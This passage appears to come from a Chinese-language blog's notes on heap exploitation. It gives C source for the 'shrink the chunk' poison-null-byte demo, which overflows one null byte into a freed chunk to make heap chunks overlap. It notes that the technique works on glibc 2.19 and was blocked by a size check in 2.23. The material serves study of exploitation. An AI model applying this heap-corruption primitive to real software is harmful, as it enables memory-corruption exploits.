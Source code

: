 ```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;
	void *barrier;

	a = (uint8_t*) malloc(0x30);
	int real_a_size = malloc_usable_size(a);
	b = (uint8_t*) malloc(0x160);

	c = (uint8_t*) malloc(0xf0);

	barrier =  malloc(0x100);
	*(size_t*)(b+0xf0) = 0x100;
      //绕过chunksize(P) != prev_size (next_chunk(P)) 检查

	free(b);
	
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"

	b1 = malloc(0x80);

	b2 = malloc(0x30);
    //memset(b2,'B',0x30);
	free(b1);
	free(c);
	
	d = malloc(0x260);
	
	memset(d,'D',0x260);//将b2中的内容覆盖
}

```
shrink the chunk demo 代码，在libc 2.19版本下能够利用成功，libc 2.23加入了对size的校验，引入的补丁：

https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30

![](../image/2019-10-10-堆利用记录/13.jpg)
